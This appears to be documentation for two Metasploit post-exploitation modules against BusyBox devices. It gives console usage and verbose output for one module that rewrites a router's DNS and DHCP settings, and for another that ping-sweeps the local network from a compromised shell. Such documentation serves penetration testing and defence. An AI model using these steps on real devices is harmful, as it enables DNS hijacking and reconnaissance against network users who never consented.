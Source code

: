<h3>Usage</h3>

```
use post/linux/manage/busybox_setdns
set SRVHOST 8.8.8.8
set SESSION 1
set VERBOSE yes
run
```

<h3>Verbose output</h3>

```
SRVHOST => 8.8.8.8
SESSION => 1
VERBOSE => yes
[*] Searching for files to modify dns server.
[*] Resolv.conf found.
[+] Dns server added to resolv.conf.
[*] Udhcpd.conf found.
[*] Original udhcpd.conf content:
[*]
decline_file /var/udhcpd.decline
interface br0
start 192.168.1.128
end 192.168.1.160
option lease 259200
min_lease 30
option subnet 255.255.255.0
option router 192.168.1.1
option dns 87.216.1.65
option dns 87.216.1.66
option domain Home

[*] Udhcpd.conf is writable.
[*] Relaunching udhcp server:
[+] Udhcpd.conf modified and dns server added. Dhcpd restarted.
[*] Post module execution completed
```

<h2>busybox_pingnet.rb</h2>

This module is intented to be applied against a session connected to a busybox ash shell. It will send an ash script to the busybox shell. This script will ping a range of addresses from the busybox device.

The module will show the results (in verbose mode) and it will store the results in loot.

<h3>Usage</h3>

```
use post/linux/gather/busybox_pingnet
set IPRANGESTART 192.168.1.1
set IPRANGEEND 192.168.1.10
set SESSION 1
set VERBOSE yes
run
```
